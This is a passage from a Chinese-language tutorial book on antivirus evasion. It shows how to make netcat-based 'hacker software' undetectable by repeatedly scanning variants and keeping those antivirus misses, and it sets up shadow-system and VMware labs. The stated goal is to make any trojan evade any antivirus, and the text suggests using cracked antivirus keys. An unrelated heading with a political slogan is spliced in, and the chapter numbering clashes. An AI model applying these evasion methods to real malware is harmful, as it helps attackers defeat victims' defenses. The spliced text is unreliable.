

下面我们正式开始打造自己的第一个免杀黑软，按捺住内心的激动后，让我们一起找到刚才“保存到”后面选择的那个文件夹，可以看见一个以免杀目标“中华经典网络军刀 NC”为名的文件夹，现在用杀毒软件扫描这个文件夹，并把所有查出来的病毒删除，如图 1-6。

在这里告诉大家一个小技巧，请大家仔细观察图 1-6，如果“已检测”与“已扫描”的文件个数相等的话，则证明这次免杀注定要失败，也就没必要继续下去了。

但是由图 1-6 可见我们的运气不错，还可以继续进行，等到杀毒软件将检测出来的病毒全部删除后，在如图 1-7 所示点击“继续”按钮，然后重复上面的查杀过程，最后剩下的文件就是我们免杀成功的黑软了！接下来您要做的就是在里面挑出来几个运行没问题的，然后发给您的朋友炫耀一番或是自己悄悄的收藏起来……


图 1-6


图 1-7

这样，一次简单的免杀操作就轻松完成了！但是这是为什么呢？其中的原理何在呢？相信随着您更加深入的学习，会对其有更加透彻的了解。

诚然，免杀的本职工作就是使一个具有危害的病毒或木马逃脱杀毒软件的扫描。但是除此之外，脱壳、加密、汉化等等其实也是免杀技术的一部分，然而由于他们都有自己独立的分支，所以在免杀技术中也就很少提及这些。但是不可否认，这些也是免杀技术中所包含的。

鉴于此，我在最后一章会单独提及汉化与免杀的关系，有一些基础的朋友如果有兴趣的话可以直接阅读，以便掌握汉化的魅力。

到此，恭喜您已经阅读完第一章，我想“千里之行，始于足下”这句话在这里写出来再合适不过了，希望这句话能始终伴随着您读完这本书，相信您在最后回望自己走过的路程时，肯定会对这句话有着更为深刻的理解……

## 第一章 组织政策环境

> “营造优化营商环境氛围。——周里斌书记”

我相信读这本书的人都是足够聪明的读者，因此大家也应该知道在免杀这个没有硝烟的战场中，如果不对自己进行一些武装是无法进行一些有效的实验的。因此一个问题便出来了“那么我们应该怎么办？”。毋庸置疑，我们首先要做的当然就是保护自己，只有保护好自己计算机系统的安全，才能谈得上去接触那些破坏力恐怖的木马与病毒，其次才是研究并驯服它们……

这一章我就带领大家组建我们自己的实验环境，以使我们以后的研究事半功倍。

### 2.1 我们需要什么

首先，欢迎您进入黑客免杀技术这个神秘的世界！

我们都知道，如果您要做一件对于您来说很重要的事情，那么在做这件事情之前我们首先要有一个目标，然后就是分析自己所拥有的资源并设计一个具体的实行方案。在学习免杀技术时我们是不是也应该这么做呢？答案是肯定的……

我想现在我们的目标很明确，就是要同时将木马、病毒与杀毒软件玩弄于股掌之间，那么我们要怎样做才能去一步一步地实现这个伟大的目标呢？这个问题很笼统，也很繁琐，所以现实生活的网络中可能没人愿意仔细地回答您这个问题，还好您现在拥有了这本书。

既然各位读者很关心“怎样实现”这个问题，说明大家对实现的前提与过程是很重视的，为什么？因为结果我们已经知道了，现在只剩下这些问题了。

而关于过程，您可以看看本书的目录结构，这本书的“目录”就是您在学习免杀过程中要“达到最终目标所需要走的路”，它不但表明了免杀技术知识的递进层次，同时也大体展现了哪些技术比较难，而哪些技术则比较简单。

那么要学好免杀技术需要有什么前提呢？我们不妨换句话说就是——“我们需要什么？”

这个问题我早就替大家想到了，下面就是我按重要性由主到次为大家列的一张表，这个表里的内容就是我们所需要的：

1. 对免杀技术的好奇或热爱。
2. 正常的大脑（最好是不知疲惫的）。
3. 灵巧的双手（最好是勤劳的）。
4. 正常跳动的心（最好是永远充满好奇的）。
5. 对电脑基本的了解（知道电脑中一些常用硬件是干什么的，知道最起码的电脑知识）。
6. 一个可以更新的杀毒软件。
7. 几个您喜欢的木马与几款小巧的绿色软件。
8. 一个专门用于实验的系统与一个专门用于制作免杀的系统。
9. 各种免杀时会用到的工具。

对于以上 9 条，本书可以帮您解决第 7-9 条，但会教您怎样去实现第 6 条，当然如果您买了这本书，我相信也会对第 1 条产生影响！

因此您所需要自己实现的就是第 2-5 条，瞧瞧，这对于您来说是多么轻松！

我想我应该对以上个别条目做出解释，以便于大家更好的理解它们：

1、我怎样才能获得一个可以更新的杀毒软件？

答：首先您可以考虑使用手机短信购买，大部分杀毒软件都支持手机支付。这很方便，当然也很便宜，我想大多数读者都能承担这笔费用。
其次您可以考虑下载离线升级包（如果您不愿购买的话），这种升级包在各大网站都有下载，到网上搜索一下即可。
最后，您可以试着下载试用版或是破解版。对于我们经常使用的卡巴斯基，网上总是有一些可以用的免费 KEY 供您下载，您只需使用搜索引擎就可以搜索出一大堆（当然也并不是全部都能用）。

2、就第 8 条看来，我目前经济条件不好，要拥有两台电脑可是不太可能，难道就没有解决办法研究免杀了吗？

答：本书会帮您解决这个问题，我会教大家怎样安装虚拟机，从而将一台电脑分成几台来用。

3、我们为什么需要虚拟机？

答：我们所研究的东西都很危险，这是很明显的。特别是有些时候我们还需要主动运行一些木马以检测我们的修改结果，而这些如果都在我们日常使用的系统中实验那简直不可想象，所以我们需要搭建虚拟机来虚拟一个与真实系统隔绝的环境来做这些危险的实验。

到现在，关于我们所需要的东西不知各位读者是否已经有所了解？相信现在不少读者心里一定在想一个问题“那么我们又能得到什么？”

很简单，首先您得到的是一本装订精美的图书，与一张资源丰富、精心制作的光盘，如果您认真阅读这本书了，您就会掌握如何让任意一款木马逃过任意一款甚至同时逃过多款杀毒软件查杀的技巧。除此之外，您还会掌握简单的汇编语言、PE 文件结构等系统底层知识，为您向软件破解、逆向工程、缓冲溢出研究或汉化改造软件等领域转型打下坚实的基础。

如果您认真的学习了本书，除了免杀之外，还会掌握基本的软件破解技巧与软件改造和汉化等技能。

这本书真的会交给您这么多的知识吗？没错的，因为这些都是免杀技术的一部分！还等什么？大家一起来玩吧！

### 2.2 安装虚拟机

通过上一节的简单介绍，相信各位读者已经知道了所谓的虚拟机就是一个虚拟的操作系统，它内部的系统与真实系统几乎没有任何关联，也就是说如果你将虚拟机里的系统完全搞崩溃的话，那么它也不会对真实的系统产生哪怕一点的影响。

为了满足不同用户的需求，现在有两种虚拟机可供我们选择，一个是影子系统，这个有些经验的读者可能听说过，但是它严格上讲并不属于虚拟机。另一个是真真正正的虚拟机，通过这种虚拟机可以虚拟出你想要的硬件环境，并由此构建出任意的系统环境。

对于影子系统来说，它其实就是起到一个类似于还原精灵的功能，当你启动系统时它也作为一个应用程序启动，以实现相应的功能。影子系统的优点就在于它对系统的资源消耗很少，而同时缺点也很明显，就是一次只能启动一个系统，这对于我们后期的免杀实验来说是一件比较麻烦的事情。

而对于虚拟机，它无疑是非常强大的，你甚至可以用它来模拟整个互联网的运行雏形！

虚拟机对于电脑的内存要求比较苛刻，例如我的台式机是 03 年的 P4 CPU 与 256MB 内存配置，属于当时的主流配置了，但是只能顺利运行一个 XP 虚拟机。不过如果要是稍作调整的话，也可以同时运行两个 XP 的虚拟机，不过速度已经变得很慢，没有实用价值了。

但是我现在用的 4G 内存笔记本电脑可以顺利地同时运行多达 12 个 Windows 2000 系统加 2 个 Windows 2003！

由此可见虚拟机对于内存的依赖是比较大的，因此如果你电脑的内存在 512MB 以上的话，笔者就强烈建议你使用虚拟机了。

关于虚拟机的安装与配置各位读者不要担心，其实就是一个软件的安装与应用而已。下面我们先介绍影子系统的安装与使用。

#### 2.2.1 影子系统的安装与使用

执行 Setup.exe 文件后进入如图 2.1 所示的界面，点击“安装”后进入如图 2.2 所示的界面，点击“下一步”继续，来到如图 2.3 所示的界面，选中“我接受此协议”单选框后点击“下一步”继续，进入如图 2.4 所示的安装界面，稍等片刻安装完毕后弹出如图 2.5 所示的界面，提示我们在系统启动时选择那个选项即可进入影子系统模式，再次点击“下一步”后来到如图 2.6 所示的界面，点击“确定”后重启操作系统，完成安装。






重启完毕后进入操作系统，双击桌面上的快捷方式“PowerShadowMaster”后进入如图 2.7 所示的界面。我们只需要知道其中两个单选框的意思即可，其中的“单一影子模式”是指只对系统所在的分区执行保护，而“完全影子模式”则是针对所有分区进行保护。需要选择自己想要的保护模式，然后点击“开始”即可，当然也可以在系统启动时选择是否启动影子系统，如图 2.8 所示。






#### 2.2.2 VMware 虚拟机的安装与使用

关于虚拟机的安装这里就不再赘述了，与影子系统的安装基本一致，就是一路“下一步”即可，另外我还为各位读者准备了绿色版的 VMware 虚拟机，不需要安装，直接解压即可。

但是由于虚拟机与系统衔接比较紧密，所以要执行解压缩目录下的“!)绿化.bat”文件完成绿化操作，在绿化的后期会出现如图 2.9 所示的窗口需要用户手动选择，我们只要依次选择 2、3、4 即可。安装完毕后执行如图 2.10 所示的“vmware.exe”就可以进入虚拟机了，如图 2.11 所示。

